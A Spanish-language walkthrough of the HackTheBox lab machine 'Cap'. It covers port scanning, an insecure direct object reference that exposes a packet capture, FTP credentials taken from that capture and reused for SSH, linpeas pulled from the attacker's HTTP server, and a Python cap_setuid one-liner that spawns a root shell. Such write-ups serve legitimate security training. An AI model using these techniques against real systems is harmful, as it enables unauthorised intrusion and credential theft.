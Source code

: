 # Tutorial de Cap de HackTheBox en Español

![info card](../../img/Cap/Cap.png)

Empezamos la máquina haciendo un escaneo de todos los puertos TCP.

```
nmap -sS -p- -Pn -n --min-rate 5000 10.129.129.34


Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-20 14:53 CEST
Nmap scan report for 10.129.129.34
Host is up (0.036s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 14.05 seconds
```

Los puertos abiertos son el `21`, `22` y `80`. Vamos a comprobar que servicios estan corriendo en ellos.

```
nmap -sVC -p 21,22,80 10.129.129.34 --min-rate 5000 -oN services.nmap


Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-20 14:57 CEST
Nmap scan report for 10.129.129.34
Host is up (0.048s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
|_http-server-header: gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Sun, 20 Oct 2024 12:57:20 GMT
...Más contenido irrelevante...

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 130.10 seconds
```

Como no tenemos credenciales para conectarnos por `ftp` o `ssh`, entraremos al sitio web que corre en el puerto `80`.

![dashboard](../../img/Cap/dashboard.png)

Al entrar vemos un dashboard de lo que parece ser un IDS (Sistema de deteccion de intrusiones).

Entrando en `Security Snapshot...`, llegamos a una página en la que podemos descargar capturas de paquetes, que podemos abrir con wireshark.

![capture](../../img/Cap/capture.png)

La captura que nos descarga al hacer click en download está vacia, por lo que no hay mucho que poder hacer con ella.

Al capturar la peticion del `download` con burpsuite, nos damos cuenta de que se está haciendo una petición por GET a `/download/[numero]`. Vamos a probar a cambiar ese numero para ver si la página nos devuelve algo diferente.

![burpusite](../../img/Cap/burpsuite.png)

Al cambiar el número de la ruta destino a `0`, la página nos devuelve un archivo de proporciones mucho mayores, lo que indica que este no está vacío. Vamos a descargarlo e inspeccionarlo en wireshark.

![burpsuite0](../../img/Cap/burpsuite0.png)

Recordamos que la máquina tenía abierto un servicio `FTP` en el puerto `21`, por lo que filtramos por "ftp" en wireshark en busca de algún paquete de autenticación en el que poder robar alguna credencial.

![wireshark ftp](../../img/Cap/wireshark-ftp.png)

Efectivamente, podemos ver como un usuario `nathan` se autenticó con la contraseña `Buck3tH4TF0RM3!`. Dado que generalmente `FTP` y `SSH` utilizan las propias credenciales de los usuarios en la máquina, intentaremos autenticarnos por `ssh` con las credenciales obtenidas.

```
ssh nathan@10.129.129.34
nathan@10.129.129.34's password: Buck3tH4TF0RM3!
```

La autenticación es exitosa, ya podemos obtener la "flag" del usuario.

```
cd
cat user.txt
```

Para poder operar más cómodamente, igualaremos la variable de entorno `TERM` a `xterm`.

```
export TERM=xterm
```

Para escalar privilegios, ejecutaremos `linpeas`, que analiza todo el sistema en busca de vías potenciales de escalar privilegios.

Descargamos el script en nuetra máquina atacante y abrimos un servicio `HTTP` con Python para pasarlo a la máquina víctima.

```
wget https://github.com/peass-ng/PEASS-ng/releases/download/20241011-2e37ba11/linpeas.sh
python3 -m http.server 80
```

Nos lo descargamos en la máquina víctima.

```
wget 10.10.14.43/linpeas.sh
```

Le damos permisos de ejecución y lo ejecutamos.

```
chmod +x linpeas.sh
./linpeas.sh


...más output de linpeas...

Files with capabilities (limited to 50):
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep

...más output de linpeas...
```

Entre muchas otras cosas, nos reporta que python tiene la capacidad `setuid`, que a efectos prácticos es lo mismo que si tuviera el bit `setuid`.

---

**¿Qué es una capacidad?**

*Las capacidades en linux son una forma de otorgar privilegios de root a procesos de una forma más dividida, en unidades más pequeñas y especificas.*

*Puedes aprender mas sobre capacidades y sobre como explotarlas [aquí](https://book.hacktricks.xyz/es/linux-hardening/privilege-escalation/linux-capabilities#ejemplo-de-explotacion).*

---

https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#exploitation-example

Para explotarlo debemos cambiar el `uid` a `0` (el de root) y ejecutar cualquier comando ya como `root`. Esto solo podemos hacerlo si tenemos el permiso `SUID` o la misma capacidad.

```
python3 -c "import os; os.setuid(0); os.system('/bin/bash')"
```

Ha funcionado, ahora somos `root`, ya podemos obtener su "flag".

```
cd /root
cat root.txt
```

Si te ha parecido útil, considera dejar una estrella al proyecto. Gracias y mucha suerte en tus próximas máquinas ❤️.